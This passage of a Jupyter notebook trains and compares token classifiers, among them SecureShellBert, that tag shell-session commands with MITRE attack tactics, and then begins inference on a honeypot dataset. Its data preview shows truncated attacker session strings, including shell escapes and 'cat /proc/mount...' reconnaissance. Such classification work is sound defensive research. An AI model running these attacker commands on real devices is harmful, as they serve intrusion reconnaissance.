       [5.37362310e-02, 9.03989283e-01, 3.72134564e-02, 4.46561477e-03,
        2.97707651e-04, 0.00000000e+00, 2.97707651e-04],
       [2.86866876e-02, 1.03092784e-01, 8.67772299e-01, 4.48229494e-04,
        0.00000000e+00, 0.00000000e+00, 0.00000000e+00],
       [7.24738676e-01, 8.71080139e-02, 7.54936121e-02, 1.10336818e-01,
        2.32288037e-03, 0.00000000e+00, 0.00000000e+00],
       [7.78082192e-01, 1.58904110e-01, 5.47945205e-03, 0.00000000e+00,
        5.75342466e-02, 0.00000000e+00, 0.00000000e+00],
       [4.73118280e-01, 3.54838710e-01, 3.58422939e-02, 0.00000000e+00,
        1.43369176e-02, 1.21863799e-01, 0.00000000e+00],
       [4.07894737e-01, 5.57017544e-01, 1.75438596e-02, 1.75438596e-02,
        0.00000000e+00, 0.00000000e+00, 0.00000000e+00]])

In [62]:
compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## Best model - frozen unless classification head

In [63]:
free_cuda_memory()
model_name = best_model['name']
model = AutoModelForTokenClassification.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label,
    label2id=label2id,
)
# Freeze all layers
for param in model.base_model.parameters():
    param.requires_grad = False

# The classification head (the token classifier) also needs to be trainable
for param in model.classifier.parameters():
    param.requires_grad = True

total_params = sum(p.numel() for p in model.parameters())
trainable_params = [(name, p.numel()) for name, p in model.named_parameters() if p.requires_grad]
trainable_count = sum(n for _, n in trainable_params)

print(f"Total model parameters: {total_params:,}")
print(f"Trainable parameters: {trainable_count:,} ({trainable_count/total_params:.2%} of total)\n")
print("Trainable parameter tensors:")
for idx, (name, num) in enumerate(trainable_params, 1):
    print(f"{idx:2d}. {name:<60} ({num:,} params)")

CUDA memory freed.


Some weights of RobertaForTokenClassification were not initialized from the model checkpoint at SmartDataPolito/SecureShellBert and are newly initialized: ['classifier.bias', 'classifier.weight']
You should probably TRAIN this model on a down-stream task to be able to use it for predictions and inference.


Total model parameters: 124,060,423
Trainable parameters: 5,383 (0.00% of total)

Trainable parameter tensors:
 1. classifier.weight                                            (5,376 params)
 2. classifier.bias                                              (7 params)


In [64]:
best_val_loss, best_epoch = np.inf, 0
best_model_local = deepcopy(model)
model = model.to(device)

In [65]:
progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses

for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

epoch 0: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 1: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 2: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 3: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 4: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 5: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 6: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 7: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 8: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 9: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 10: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 11: {'token_accuracy': 0.18860016764459347, 'token_f1': 0.11350150433424186}
epoch 12: {'to



In [66]:
plot_stats("Best Model - Frozen just Classification Head", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

In [67]:
if best_val_loss < best_model['val_loss']:
    best_model['model'] = deepcopy(best_model_local)
    best_model['val_loss'] = best_val_loss
    best_model['name'] = pretrained_model
    print(f"The best model has been changed: {best_model['name']}, {best_model['val_loss']}")

token_accuracy      :  17.19%
token_f1            :  10.48%
token_precision     :  14.04%
token_recall        :  14.67%
token_fidelity      :  22.37%




In [68]:
# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)
results.update({"Best Model Classfication head":test_metrics})
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall", "token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")

f1_results.update({"Best Model Classfication head":plot_per_class_f1(full_predictions, full_labels, id2label)})





array([[0.16363636, 0.21173763, 0.08239356, 0.03360184, 0.43268124,
        0.03429229, 0.04165708],
       [0.16284609, 0.22610896, 0.11848765, 0.03393867, 0.31616553,
        0.05998809, 0.08246502],
       [0.12550426, 0.23352757, 0.05602869, 0.01792918, 0.5060511 ,
        0.04123711, 0.0197221 ],
       [0.14866434, 0.25319396, 0.08943089, 0.04645761, 0.36236934,
        0.08594657, 0.01393728],
       [0.15890411, 0.11506849, 0.11232877, 0.03013699, 0.4630137 ,
        0.07123288, 0.04931507],
       [0.15770609, 0.2078853 , 0.13620072, 0.01433692, 0.41577061,
        0.05376344, 0.01433692],
       [0.11403509, 0.24561404, 0.0745614 , 0.02192982, 0.44736842,
        0.07894737, 0.01754386]])

In [69]:
compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## Best model more lr

In [70]:
free_cuda_memory()
model_name = best_model['name']
model = AutoModelForTokenClassification.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label,
    label2id=label2id,
)
# Freeze all layers
for param in model.base_model.parameters():
    param.requires_grad = False

# The classification head (the token classifier) also needs to be trainable
for param in model.classifier.parameters():
    param.requires_grad = True

total_params = sum(p.numel() for p in model.parameters())
trainable_params = [(name, p.numel()) for name, p in model.named_parameters() if p.requires_grad]
trainable_count = sum(n for _, n in trainable_params)

print(f"Total model parameters: {total_params:,}")
print(f"Trainable parameters: {trainable_count:,} ({trainable_count/total_params:.2%} of total)\n")
print("Trainable parameter tensors:")
for idx, (name, num) in enumerate(trainable_params, 1):
    print(f"{idx:2d}. {name:<60} ({num:,} params)")

CUDA memory freed.


Some weights of RobertaForTokenClassification were not initialized from the model checkpoint at SmartDataPolito/SecureShellBert and are newly initialized: ['classifier.bias', 'classifier.weight']
You should probably TRAIN this model on a down-stream task to be able to use it for predictions and inference.


Total model parameters: 124,060,423
Trainable parameters: 5,383 (0.00% of total)

Trainable parameter tensors:
 1. classifier.weight                                            (5,376 params)
 2. classifier.bias                                              (7 params)


In [71]:
LR = 1e-4
N_TRAIN_EPOCHS = 50
# Define optimizer
optimizer = AdamW(model.parameters(), lr=LR)
num_update_steps_per_epoch = len(train_dataloader)
# Total number of training steps: number_batches_x_epoch x number of epochs!
num_training_steps = N_TRAIN_EPOCHS * num_update_steps_per_epoch

lr_scheduler = get_scheduler(
    "linear",
    optimizer=optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)


best_val_loss, best_epoch = np.inf, 0

best_model_local = deepcopy(model)
model = model.to(device)

In [72]:
progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses

for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

epoch 0: {'token_accuracy': 0.3532271584241408, 'token_f1': 0.15343594552024234}
epoch 1: {'token_accuracy': 0.39664710813076276, 'token_f1': 0.14358626356731924}
epoch 2: {'token_accuracy': 0.446940486169321, 'token_f1': 0.15249732035459668}
epoch 3: {'token_accuracy': 0.48700754400670576, 'token_f1': 0.16402694033772014}
epoch 4: {'token_accuracy': 0.5025984911986588, 'token_f1': 0.16997574751713226}
epoch 5: {'token_accuracy': 0.5202011735121542, 'token_f1': 0.17809879680236326}
epoch 6: {'token_accuracy': 0.5364626990779547, 'token_f1': 0.18571134403902248}
epoch 7: {'token_accuracy': 0.550544844928751, 'token_f1': 0.19180424859675702}
epoch 8: {'token_accuracy': 0.5557418273260687, 'token_f1': 0.19609615530265762}
epoch 9: {'token_accuracy': 0.5647946353730092, 'token_f1': 0.2008825471582352}
epoch 10: {'token_accuracy': 0.5728415758591785, 'token_f1': 0.20455177193913188}
epoch 11: {'token_accuracy': 0.5825649622799665, 'token_f1': 0.2107737758075594}
epoch 12: {'token_accuracy':



In [73]:
plot_stats("Best Model - Frozen just Classification Head + 1e-4", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

token_accuracy      :  61.66%
token_f1            :  25.90%
token_precision     :  26.87%
token_recall        :  26.71%
token_fidelity      :  64.38%




In [74]:
# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)
results.update({"Best Model Classfication head + 1e-4":test_metrics})
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall", "token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")

f1_results.update({"Best Model Classfication head + 1e-4":plot_per_class_f1(full_predictions, full_labels, id2label)})





array([[0.66720368, 0.28078251, 0.05201381, 0.        , 0.        ,
        0.        , 0.        ],
       [0.15912474, 0.82092885, 0.01994641, 0.        , 0.        ,
        0.        , 0.        ],
       [0.32944868, 0.28910802, 0.3814433 , 0.        , 0.        ,
        0.        , 0.        ],
       [0.71777003, 0.27526132, 0.00696864, 0.        , 0.        ,
        0.        , 0.        ],
       [0.55342466, 0.43287671, 0.01369863, 0.        , 0.        ,
        0.        , 0.        ],
       [0.54480287, 0.44444444, 0.01075269, 0.        , 0.        ,
        0.        , 0.        ],
       [0.47807018, 0.49561404, 0.02631579, 0.        , 0.        ,
        0.        , 0.        ]])

In [75]:
compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## Results

Final results:


,token_accuracy,token_precision,token_recall,token_f1,token_fidelity
Bert - Pretrained,83.11%,50.60%,66.95%,54.20%,83.60%
Bert not Pretrained,76.93%,46.62%,62.42%,49.91%,77.98%
Unixcoder,85.74%,63.85%,78.91%,67.42%,86.58%
Secure Shell Bert,88.61%,67.88%,84.24%,71.21%,89.33%
Best Model 2 layer + classification header,77.51%,68.16%,40.92%,42.37%,78.64%
Best Model Classfication head,17.19%,14.04%,14.67%,10.48%,22.37%
Best Model Classfication head + 1e-4,61.66%,26.87%,26.71%,25.90%,64.38%




In [76]:
def result_graph(results, dict_f1_scores):
    """
    Plot overall metrics table and per-class F1 comparison.

    Supports two structures for dict_f1_scores:
      1. dict(model_name -> dict(tag -> f1_score))
      2. dict(model_name -> sequence/np.ndarray of f1_scores) where tag order is given by `unique_labels`
    """
    # Tabular (overall) metrics
    df = pd.DataFrame(results).T


    def highlight_max(s, props='font-weight: bold'):
        return [props if v == s.max() else '' for v in s]

    styled = df.style.format('{:.2%}', na_rep='-').apply(highlight_max, axis=0)

    print("Final results:")
    display(styled)

    # Per-class F1 scores
    f1_dict = dict_f1_scores
    first_val = next(iter(f1_dict.values()))

    # Determine tag names
    if hasattr(first_val, "keys"):
        # dict of dicts
        tags = sorted(list(first_val.keys()))
        value_type = "dict"
    else:
        # dict of arrays/lists -> use existing global unique_labels if available
        try:
            tags = list(unique_labels)
        except NameError:
            tags = [f"label_{i}" for i in range(len(first_val))]
        value_type = "seq"

    n_tags = len(tags)
    n_models = len(f1_dict)

    # Prepare x positions
    x = np.arange(n_tags)
    width = 0.18 if n_models <= 5 else 0.8 / n_models  # adaptive width
    colors = plt.cm.Set2(np.linspace(0, 1, n_models))

    fig, ax = plt.subplots(figsize=(18, 6))

    for i, (model_name, f1_scores) in enumerate(f1_dict.items()):
        if value_type == "dict":
            scores = [f1_scores[tag] for tag in tags]
        else:
            # ensure length alignment
            arr = list(f1_scores)
            if len(arr) != n_tags:
                # fallback truncate/pad
                if len(arr) > n_tags:
                    arr = arr[:n_tags]
                else:
                    arr = arr + [np.nan] * (n_tags - len(arr))
            scores = arr
        ax.bar(x + i * width - (width * (n_models - 1) / 2),
               scores,
               width,
               label=model_name,
               color=colors[i])

    ax.set_xlabel('MITRE Tactic Tag', fontsize=18)
    ax.set_ylabel('F1-score', fontsize=18)
    ax.set_title('Per-Class F1-score Comparison', fontsize=18, fontweight='bold', pad=10)
    ax.set_xticks(x)
    ax.set_xticklabels(tags, rotation=45, ha='right', fontsize=12)
    ax.tick_params(axis='y', labelsize=18)
    ax.set_ylim(0, 1.0)
    ax.grid(True, linestyle='--', alpha=0.7)
    ax.spines['top'].set_visible(False)
    ax.spines['right'].set_visible(False)

    box = ax.get_position()
    ax.set_position([box.x0, box.y0 + 0.15, box.width, box.height * 0.75])

    ax.legend(
        title='Models',
        title_fontsize=11,
        fontsize=11,
        loc='upper right',
        bbox_to_anchor=(1.2, 1.1),
    )

    plt.show()


result_graph(results, f1_results)
print()


# Task 4: Inference

In [77]:
data = pd.read_csv("cyberlab.csv")
print("Dataset size:", len(data))
print(data.head())
print(data.info())

data['trunc_session'] = data['session'].apply(truncate_long_words)
data['words'] = data['trunc_session'].str.split(" ")
dataset = Dataset.from_pandas(data.reset_index(drop=True))

Dataset size: 174262
                                             session  \
0  enable ; system ; shell ; sh ; cat /proc/mount...   
1  enable ; system ; shell ; sh ; cat /proc/mount...   
2  enable ; system ; shell ; sh ; cat /proc/mount...   
3  enable ; system ; shell ; sh ; cat /proc/mount...   
4  enable ; system ; shell ; sh ; cat /proc/mount...   

              timestamps_statements country_name  
0  2019-09-01 00:00:10.493808+00:00       Israel  
1  2019-09-01 00:38:41.134935+00:00       Israel  
2  2019-09-01 00:39:26.263383+00:00       Israel  
3  2019-09-01 00:40:45.132152+00:00       Israel  
4  2019-09-01 00:54:51.783935+00:00       Israel  
<class 'pandas.core.frame.DataFrame'>
RangeIndex: 174262 entries, 0 to 174261
Data columns (total 3 columns):
 #   Column                 Non-Null Count   Dtype 
---  ------                 --------------   ----- 
 0   session                174262 non-null  object
 1   timestamps_statements  174262 non-null  object
 2   country_name 

In [78]:
name_model = best_model['name']
print(f"Best model: {name_model}")
tokenizer = AutoTokenizer.from_pretrained(name_model, add_prefix_space=True)
# best_model['model'] already contains the trained model instance (not a repo id),
# so we use it directly instead of calling from_pretrained on its str() representation.
model = best_model['model']
model.to(device)
model.eval()

Best model: SmartDataPolito/SecureShellBert


RobertaForTokenClassification(
  (roberta): RobertaModel(
    (embeddings): RobertaEmbeddings(
      (word_embeddings): Embedding(50265, 768, padding_idx=1)
      (position_embeddings): Embedding(514, 768, padding_idx=1)
      (token_type_embeddings): Embedding(1, 768)
      (LayerNorm): LayerNorm((768,), eps=1e-05, elementwise_affine=True)
      (dropout): Dropout(p=0.1, inplace=False)
    )
    (encoder): RobertaEncoder(
      (layer): ModuleList(
        (0-11): 12 x RobertaLayer(
          (attention): RobertaAttention(
            (self): RobertaSdpaSelfAttention(
              (query): Linear(in_features=768, out_features=768, bias=True)
              (key): Linear(in_features=768, out_features=768, bias=True)
              (value): Linear(in_features=768, out_features=768, bias=True)
              (dropout): Dropout(p=0.1, inplace=False)
            )
            (output): RobertaSelfOutput(
